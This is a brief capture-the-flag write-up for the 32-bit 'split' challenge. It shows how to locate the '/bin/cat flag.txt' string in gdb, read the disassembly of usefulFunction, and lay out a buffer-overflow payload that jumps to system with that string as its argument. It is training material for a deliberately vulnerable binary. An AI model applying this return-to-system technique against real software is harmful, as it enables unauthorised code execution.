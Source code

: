 # split - 32bit

The string we need (`/bin/cat flag.txt`) is present in the binary.

To find its memory location:

Run `gdb` and break at `main` (`b main`).

Then once the breakpoint has hit run `find <STRING>`. This will display all string locations with `<STRING>` in them.

```
gdb-peda$ find /bin/cat

Searching for '/bin/cat' in: None ranges
Found 1 results, display max 1 items:
split32 : 0x804a030 ("/bin/cat flag.txt")
```

We are provided with a function `usefulFunction`:

```
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:	    push   ebp
   0x0804864a <+1>:	    mov    ebp,esp
   0x0804864c <+3>:	    sub    esp,0x8
   0x0804864f <+6>:	    sub    esp,0xc
   0x08048652 <+9>:	    push   0x8048747
   0x08048657 <+14>:	call   0x8048430 <system@plt>
   0x0804865c <+19>:	add    esp,0x10
   0x0804865f <+22>:	nop
   0x08048660 <+23>:	leave  
   0x08048661 <+24>:	ret    
End of assembler dump.
```

That provides us with a static address for `system` (0x08048657). We not want to use the `/bin/cat flag.txt` as an argument for `system`.

Our payload will have:

```
junk            p32(0x90 x 44 bytes)
system addr     p32(0x08048657)
bin_cat addr    p32(0x0804a030)
exit addr       p32(0x90) [JUNK]
```

Running this allows us to create a ROP chain of sorts that exploits the program!